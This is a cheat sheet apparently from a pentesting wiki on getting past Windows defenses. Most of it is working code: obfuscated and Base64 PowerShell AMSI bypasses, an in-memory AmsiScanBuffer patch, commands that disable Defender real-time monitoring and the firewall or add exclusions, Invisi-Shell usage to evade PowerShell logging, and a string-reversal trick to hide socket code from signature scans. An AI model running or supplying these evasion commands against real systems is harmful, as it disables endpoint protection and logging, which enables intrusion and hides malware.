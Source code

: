 # Bypass defenses

## AMSI Bypass

### PowerShell AMSI Bypass &#x20;

{% tabs %}
{% tab title="Obfuscated" %}
{% code fullWidth="false" %}
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
{% endcode %}
{% endtab %}

{% tab title="Base64" %}
<pre class="language-powershell"><code class="lang-powershell"><strong>[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
</strong></code></pre>
{% endtab %}
{% endtabs %}

### .NET AMSI Bypass

```powershell
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $ZQCUW

$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```

## Windows Defender

> **Note:** If Tamper protection is enabled you will not be able to turn off Defender by CMD or PowerShell. You can however, still create an exclusion.

Disable real time monitoring

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Disable scanning for downloaded files (more silent and preferred)

```powershell
Set-MpPreference -DisableIOAVProtection $true
```

Create an exclusion

```powershell
Add-MpPreference -ExclusionPath "C:\Windows\Temp"
```

## Firewall&#x20;

> **Note:** requires Admin privileges.

Disable using PowerShell

```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

Disable manually

<figure><img src="../.gitbook/assets/disable-firewall.png" alt=""><figcaption></figcaption></figure>

## Invisi-Shell

{% embed url="https://github.com/OmerYa/Invisi-Shell" %}

Invisi-Shell bypasses all of PowerShell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking&#x20;

Usage

```powershell
# With admin privileges:
RunWithPathAsAdmin.bat 

# More Silent
# With non-admin privileges:
RunWithRegistryNonAdmin.bat

# Type exit from the new PowerShell session to complete the clean-up.
exit
```

## AV Signatures Bypass

### AMSITrigger

&#x20;identify the part of a script is detected

{% embed url="https://github.com/RythmStick/AMSITrigger" %}
AMSITrigger
{% endembed %}

usage

```powershell
AmsiTrigger_x64.exe -i PowerUp.ps1 
```

Example for scanning

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Example for bypassing&#x20;

<pre class="language-powershell"><code class="lang-powershell"><strong># Reverse the "Net.Sockets" string
</strong><strong>
</strong><strong>$String = "stekcoS.teN"
</strong>$class = ([regex]::Matches($String,'.','RightToLeft') | ForEach {$_.value}) -join ''
if ($Reverse)
{
 $client = New-Object System.$class.TCPClient($IPAddress,$Port)
}
</code></pre>

### DefenderChecker&#x20;

Identify code and strings from a binary / file that Windows Defender may flag

{% embed url="https://github.com/t3hbb/DefenderCheck" %}
DefenderChecker
{% endembed %}

usage

```powershell
DefenderCheck.exe PowerUp.ps1 
```

